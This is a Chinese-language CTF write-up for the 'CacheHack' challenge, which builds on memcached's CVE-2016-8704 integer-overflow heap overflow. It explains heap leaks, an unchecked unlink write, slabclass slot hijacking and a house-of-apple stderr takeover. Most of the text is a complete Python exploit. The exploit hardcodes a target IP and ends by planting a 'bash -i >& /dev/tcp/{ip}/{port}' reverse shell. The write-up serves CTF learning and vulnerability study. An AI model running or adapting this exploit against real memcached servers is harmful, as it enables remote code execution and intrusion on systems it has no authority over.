



# CacheHack  WP

## 出题背景

题目来源CVE-2016-8704，通过搜索可以找到造成crash的[poc](https://talosintelligence.com/vulnerability_reports/TALOS-2016-0219/)，以及官方对应的[patch](https://github.com/memcached/memcached/commit/bd578fc34b96abe0f8d99c1409814a09f51ee71c)，是一个整数溢出造成的堆溢出，

为了现代化一些，将漏洞patch到了最新的源码上，并将环境放到了ubuntu22上

## 漏洞利用

下面介绍的是笔者在做利用的时候的思路，后续发现Lilac的大佬在任意地址申请上的方法更简单优雅，他们也是该赛题的唯一解，详细可以参考Lilac的[WP](https://lilachit.notion.site/Lilac-2024DubheCTF-wp-caa603fa40ba4699982a13ddf062906a)

请求包定义如下：

```C
 /**
     * Definition of the header structure for a request packet.
     * See section 2
     */
    typedef union {
        struct {
            uint8_t magic;
            uint8_t opcode;
            uint16_t keylen;
            uint8_t extlen;
            uint8_t datatype;
            uint16_t reserved;
            uint32_t bodylen;
            uint32_t opaque;
            uint64_t cas;
        } request;
        uint8_t bytes[24];
    } protocol_binary_request_header;
```

根据poc可以得到造成堆溢出的包，溢出对象为`item`，定义如下

```C
/**
 * Structure for storing items within memcached.
 */
typedef struct _stritem {
    /* Protected by LRU locks */
    struct _stritem *next;
    struct _stritem *prev;
    /* Rest are protected by an item lock */
    struct _stritem *h_next;    /* hash chain next */
    rel_time_t      time;       /* least recent access */
    rel_time_t      exptime;    /* expire time */
    int             nbytes;     /* size of data */
    unsigned short  refcount;
    uint16_t        it_flags;   /* ITEM_* above */
    uint8_t         slabs_clsid;/* which slab class we're in */
    uint8_t         nkey;       /* key length, w/terminating null and padding */
    /* this odd type prevents type-punning issues when we do
     * the little shuffle to save space when not using CAS. */
    union {
        uint64_t cas;
        char end;
    } data[];
    /* if it_flags & ITEM_CAS we have 8 bytes CAS */
    /* then null-terminated key */
    /* then " flags length\r\n" (no terminating null) */
    /* then data with terminating \r\n (no terminating null; it's binary!) */
} item;
```

内存中一个item长下面这样
```
0x7ffff7f2cf70: 0x0000000000000000      0x0000000000000000 --- set key
0x7ffff7f2cf80: 0x0000000000000000      0x0000007e00000046
0x7ffff7f2cf90: 0x0306000100000006      0x0000000000000881
0x7ffff7f2cfa0: 0x0000000000000001      0x4141414141414141
0x7ffff7f2cfb0: 0x410a0d3420302000      0x0000000a0d414141
0x7ffff7f2cfc0: 0x0000000000000000      0x0000000000000000
0x7ffff7f2cfd0: 0x0000000000000000      0x0000000000000000
0x7ffff7f2cfe0: 0x0000000000000000      0x0000000000000000
0x7ffff7f2cff0: 0x0000000000000000      0x0000000000000000
0x7ffff7f2d000: 0x0000000000000000      0x0000000000029002
0x7ffff7f2d010: 0x0000000000000000      0x0000000000000000
```
```
pwndbg> p/x *(item*) 0x7ffff7f2cf70
$1 = {
  next = 0x0,
  prev = 0x0,
  h_next = 0x0,
  time = 0x46,
  exptime = 0x7e,
  nbytes = 0x6,
  refcount = 0x1,
  nsuffix = 0x6,
  it_flags = 0x3,
  slabs_clsid = 0x81,
  nkey = 0x8,
  data = 0x7ffff7f2cfa0
}
```

可以注意到结构体中的`nbytes`表示存储的值的长度，而slab的分配是从高地址往低地址分配的，所以可以通过溢出修改下方item的`nbytes`，完成越界读取，可以泄露出相应slab附近的堆地址

然而这个地址可以发现并无法直接得到libc基址，其偏移存在较大随机化，还需要通过其他方法泄露基址

在`do_item_unlink_q()`函数中发现存在`unlink`操作，没有检查，且slab的`next`和`prev`都可以直接通过溢出修改，所以可以利用这里完成任意地址写地址的利用效果

```C
if (it->next) it->next->prev = it->prev;
if (it->prev) it->prev->next = it->next;
```

修改`prev`和`next`指针后，删除对应item，然后再`set`一个对应的item能够触发unlink

接着笔者注意到获取item的调用链`item_get()->do_item_get()->assoc_find()`，程序通过`key`计算得到一个较短的哈希值，并以此作为索引，有一个数组`primary_hashtable`存放对应索引的item节点。因为计算出来的哈希索引较短，发生碰撞时，使用`h_next`单向地链接这些item，查询时也是沿着单向链表查询，判断key的长度和值是否相同
```C
if ((nkey == it->nkey) && (memcmp(key, ITEM_key(it), nkey) == 0)) {
    ret = it;
    break;
}
```



同时在内存空间上找到了一个地方（具体见exp）有概率同时存在libc地址和elf基址，于是产生思路：

- 先布置一个key为1字节的item
- 通过不同slabclass的slab触发多次unlink任意地址写地址，在想要泄露地址的地方布置fake item结构体的`nkey`和`nbytes`
- 堆排布，通过堆溢出修改第一步布置的正常item，修改其中的key使其在之后的索引中key比对失败，并修改该item的`h_next`指向布置的fake item
- 第一步中布置的正常item的key根据fake item对应到的key设置，实际调试发现可以指向一个确切的值

由于只能写地址，fake item的`nkey`使用地址低位控制，`nbytes`用地址最高字节`0x7f`控制



slabclass结构体定义如下，多个slabclass组成结构体数组存储在bss上，其中`slots`指向即将获取的空闲slab，修改`slots`可以实现任意地址申请

```C
typedef struct {
    unsigned int size;      /* sizes of items */
    unsigned int perslab;   /* how many items per slab */

    void *slots;           /* list of item ptrs */
    unsigned int sl_curr;   /* total free items in list */

    unsigned int slabs;     /* how many slabs were allocated for this class */

    void **slab_list;       /* array of slab pointers */
    unsigned int list_size; /* size of prev array */

    size_t requested; /* The number of requested bytes */
} slabclass_t;
```

不过`slots`指向的内存对应的`prev`和`next`需要是0，否则会触发相应链表操作造成crash。笔者先用unlink修改一个`slots`，申请到slabclass上方的地址，然后布置两个恶意slabclass（其他原值填回，`slab_list`随便填了一个地址），分别修改stderr和布置widedata，最后走的经典house of apple劫持执行流，反弹shell

## exp

需要三个命令行参数：接收shell的ip、端口和题目的动态端口

```python
import struct
import socket
import sys
import pwn

p8 = lambda x: struct.pack("<B", x)
p16 = lambda x: struct.pack("<H", x)
p16b = lambda x: struct.pack(">H", x)
p32 = lambda x: struct.pack("<I", x)
p32b = lambda x: struct.pack(">I", x)
p64 = lambda x: struct.pack("<Q", x)

TARGET_IP = "1.95.36.27"

def send_msg(packet):
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET_IP,int(sys.argv[3])))
	s.sendall(packet)
	res = s.recv(1024)
	s.close()
	return res

def quit_packet():
	MEMCACHED_REQUEST_MAGIC = b"\x80"
	OPCODE_QUIT = b"\x17"
	key_len = struct.pack("!H",0)
	body_len = struct.pack("!I",0)
	packet = MEMCACHED_REQUEST_MAGIC + OPCODE_QUIT + key_len +   body_len*2+b'A'*1024
	return packet

def get_packet(key):
	return b"get "+key+b"\r\n"

def set_packet(key, value):
	return b"set "+key+b" 0 9999 "+str(len(value)).encode()+b"\r\n"+value+b"\r\n"

def delete_packet(key):
	return b"delete "+key+b"\r\n"

def replace_packet(key, value):
	return b"replace "+key+b" 0 9999 "+str(len(value)).encode()+b"\r\n"+value+b"\r\n"

def getk(key):
	return send_msg(get_packet(key))

def setk(key, value):
	return send_msg(set_packet(key, value))

def deletek(key):
	return send_msg(delete_packet(key))

def replacek(key, value):
	return send_msg(replace_packet(key, value))

def gen_item_header(next, prev, h_next, time, exptime, nbytes,
	     refcount, nsuffix, it_flags, slabs_clsid, nkey):
	pay = b''
	pay+= struct.pack("<QQQIIIHBBBB", next, prev, h_next, time, exptime,
		   nbytes, refcount, nsuffix, it_flags, slabs_clsid, nkey)
	return pay

def evil_packet(keylen, body, bodylen=-1):
	if bodylen == -1:
		bodylen = len(body)-0x43
	if keylen > 0xfa:
		keylen = 0xfa
	MEMCACHED_REQUEST_MAGIC = b"\x80"
	OPCODE_PREPEND_Q = b"\x1a"
	key_len = struct.pack("!H",keylen)
	extra_len = b"\x00"
	data_type = b"\x00"
	vbucket = b"\x00\x00"
	body_len = struct.pack("!I", bodylen)
	opaque = struct.pack("!I",0)
	CAS = struct.pack("!Q",0)
	packet = MEMCACHED_REQUEST_MAGIC + OPCODE_PREPEND_Q + key_len + extra_len
	packet += data_type + vbucket + body_len + opaque + CAS
	packet += body
	return packet

arbw_klen = [0x28, 0x48, 0x68]
arbw_id = [0x2, 0x83, 0x84]
arbw_pad = [0x40, 0x60, 0x88]
arbw_cnt = 0
def arb_write(addr1, addr2):
	global arbw_cnt
	klen = arbw_klen[arbw_cnt]
	setk(b'A'*klen, b'A'*0x8)
	setk(b'B'*klen, b'B'*0x8)
	fake_item_header = gen_item_header(0,0,0,0x5d,0x2751,0x0101,1,3,0,arbw_id[arbw_cnt],klen)
	body = b"\x00"*arbw_pad[arbw_cnt]+fake_item_header
	body = body.ljust(rd_eight(body) ,b"\x00")
	body+= p64((arbw_cnt+1)*3+1)+b'B'*klen+b'\x00'+b'B'*0x8
	packet = evil_packet(len(body), body, klen+8)

	print(f"[+] start overflow {arbw_cnt}")
	
	send_msg(packet)
	pwn.sleep(1)
	res = getk(b'B'*klen)
	if not b'\x7f' in res:
		print("[!] fail")
		exit()
	
	fake_item_header = gen_item_header(addr1-8,addr2,0,0x5d,0x2751,0,1,3,0,arbw_id[arbw_cnt],klen)
	body = b"\x00"*arbw_pad[arbw_cnt]+fake_item_header
	body = body.ljust(rd_eight(body) ,b"\x00")
	body+= p64((arbw_cnt+1)*3+1)+b'B'*klen+b'\x00'+b'B'*0x8
	packet = evil_packet(len(body), body, klen+8)
	
	send_msg(packet)
	deletek(b'B'*klen)
	setk(b'C'*klen, b'A'*0x8)
	arbw_cnt+=1


def flush_all():
	return send_msg(b"flush_all\r\n")

def rd_eight(body):
	return (len(body) + 7) & -8

def attack(ip, port):
	libc = pwn.ELF('/lib/x86_64-linux-gnu/libc.so.6')
	target_c = b'\x23'
	setk(b'A', b'A'*0x8)
	setk(target_c, b'B'*0x8)

	fake_item_header = gen_item_header(0,0,0,0x3f,0x274d,0x0101,1,3,0,0x81,0x1)
	body = b"\x00"*0x28+fake_item_header
	body = body.ljust(rd_eight(body) ,b"\x00")
	body+= p64(0x2)+target_c+b'\x00'+b'B'*8
	packet1 = evil_packet(len(body), body, 0)

	print("[+] start leak")
	send_msg(packet1)
	res = getk(target_c)
	if (res == b''):
		print("[!] fail to leak")
		exit()
		
	ress = res[res.find(b'\r\n')+8+0x28:]
	heapaddr, = struct.unpack("<Q", ress[:8])
	heapbase = heapaddr-0xfff10
	leak_addr = heapbase+0x124000+0x7ff5b0+0x990

	print("[+] heap addr: "+hex(heapaddr))
	print("[+] heap base: "+hex(heapbase))
	print("[+] leak addr: "+hex(leak_addr))
	if heapbase&0xfff != 0:
		print("[!] fail")
		exit()


	########################### set fake item ###########################
	arb_write(leak_addr-8, leak_addr&~0xffff|0x0101)
	arb_write(leak_addr-0x15, leak_addr)
	########################### set fake item ###########################
	
	########################### change h_next ###########################

	fake_item_header = gen_item_header(0,0,leak_addr-0x30,0x3f,0x274d,0x0101,1,3,0,0x81,0x1)
	body = b"\x00"*0x28+fake_item_header
	body = body.ljust(rd_eight(body) ,b"\x00")
	body+= p64(0x2)+b'A'+b'\x00'+b'B'*8
	packet4 = evil_packet(len(body), body, 0)
	print("[+] change h_next")
	send_msg(packet4)

	########################### change h_next ###########################

	res = getk(target_c)
	ress = res[res.find(b'\r\n')+8+8:]
	#print(res)
	if not b'\x7f' in ress or (not b'\x55' in ress and not b'\x56' in ress):
		print("[!] fail to leak")
		exit()
	base = 0
	for i in range(10):
		a, = struct.unpack("<Q", ress[i*8:(i+1)*8])
		if (a>>40)&0xf0 == 0x50: # base
			if base == 0 and a&0xfff == 0xc80:
				base = a-0x6bc80
			elif base == 0 and a&0xfff == 0xcc0:
				base = a-0x6bcc0
			elif base == 0 and a&0xfff == 0xe41:
				base = a-0x11e41
			elif base == 0 and a&0xfff == 0xcd0:
				base = a-0x6bcd0
			elif base == 0 and a&0xfff == 0xec0:
				base = a-0x65ec0
                
		if (a>>40)&0xf0 == 0x70: # libc
			if libc.address==0 and a&0xfff == 0x720:
				libc.address = a-0x93720
			elif libc.address==0 and a&0xfff == 0x848:
				libc.address = a-0x9b848
			elif libc.address==0 and a&0xfff == 0x7f8:
				libc.address = a-0x9b7f8
	
	print("[+] base addr: "+hex(base))
	print("[+] libc base: "+hex(libc.address))
	if base == 0 or libc.address == 0 or base&0xfff!=0 or libc.address&0xfff!=0:
		print("[!] fail to leak")
		exit()

	########################### hijack slabslot ###########################
	setk(b'A'*8, b'A'*0xa0)
	slabslot5 = base+0x55d90
	slabclass = base+0x55cc0
	arb_write(base+0x55cd0, slabslot5)
	fake_slabclass4= p64(0x00001111000000f0)
	fake_slabclass4+= p64(slabclass+0x118-0x40)
	fake_slabclass4+= p64(0x0000000100001110)
	fake_slabclass4+= p64(leak_addr&~0xfff)
	fake_slabclass4+= p64(0x0000000000000010)
	fake_slabclass = b'\x00'*0x57+fake_slabclass4
	setk(b'Z'*8, fake_slabclass.ljust(0xa0, b'\x00'))

	fake_wd_addr = heapaddr+0x5000
	print("[+] fake wd addr: "+hex(fake_wd_addr))
	fake_slabclass7= p64(0x00000aaa00000180)
	fake_slabclass7+= p64(libc.sym['_IO_2_1_stderr_']-0x38-2)
	fake_slabclass7+= p64(0x0000000100000aa9)
	fake_slabclass7+= p64(leak_addr&~0xfff)
	fake_slabclass7+= p64(0x0000000000000010)
	fake_slabclass8= p64(0x00000888000001e0)
	fake_slabclass8+= p64(fake_wd_addr-0x38)
	fake_slabclass8+= p64(0x0000000100000887)
	fake_slabclass8+= p64(leak_addr&~0xfff)
	fake_slabclass8+= p64(0x0000000000000010)
	fake_slabclass = b'\x00'*0x6+fake_slabclass7+fake_slabclass8
	setk(b'D', fake_slabclass.ljust(0xa0, b'\x01'))
	########################### hijack slabslot ###########################

	fake_widedata = b'\x00'*0xd8
	fake_widedata+= p64(fake_wd_addr+0xe0+0x18-0x68) # _wide_vtable
	fake_widedata+= p64(0)
	fake_widedata+= p64(0)
	fake_widedata+= p64(libc.sym['system'])
	setk(b'fakewda', fake_widedata.ljust(0x140, b'\x00'))

	fake_stderr = b''
	fake_stderr+= f' bash -i >& /dev/tcp/{ip}/{port} 0>&2'.encode().ljust(0x30, b'\x00')
	fake_stderr+= p64(0)# 0x30:'_IO_write_end',
	fake_stderr+= p64(0)# 0x38:'_IO_buf_base',
	fake_stderr+= p64(0)# 0x40:'_IO_buf_end',
	fake_stderr+= p64(leak_addr&~0xfff)# 0x48:'_IO_save_base',
	fake_stderr+= p64(0)# 0x50:'_IO_backup_base',
	fake_stderr+= p64(0)# 0x58:'_IO_save_end',
	fake_stderr+= p64(0)# 0x60:'_markers',
	fake_stderr+= p64(0)# 0x68:'_chain',
	fake_stderr+= p32(0)# 0x70:'_fileno',
	fake_stderr+= p32(0)# 0x74:'_flags2',
	fake_stderr+= p64(0)# 0x78:'_old_offset',
	fake_stderr+= p64(0)# 0x80:'_cur_column',0x82:'_vtable_offset',0x83:'_shortbuf',
	fake_stderr+= p64(libc.address+0x21ca60)# 0x88:'_lock',
	fake_stderr+= p64(0)# 0x90:'_offset',
	fake_stderr+= p64(0)# 0x98:'_codecvt',
	fake_stderr+= p64(fake_wd_addr)# 0xa0:'_wide_data',
	fake_stderr+= p64(0)# 0xa8:'_freeres_list',
	fake_stderr+= p64(0)# 0xb0:'_freeres_buf',
	fake_stderr+= p64(0)# 0xb8:'__pad5',
	fake_stderr+= p32(0)# 0xc0:'_mode',
	fake_stderr+= b'\x00'*0x14 # 0xc4:'_unused2',
	fake_stderr+= p64(libc.address+0x2170c0)# 0xd8:'vtable' #_IO_wfile_jumps
	setk(b'D', fake_stderr.ljust(0x100, b'\x02'))

	print("[+] Done")

if __name__ == '__main__':
	if len(sys.argv) < 4:
		print('[!] expect three args')
		exit()
	
	ip = sys.argv[1]
	port = sys.argv[2]
	attack(ip, port)
```

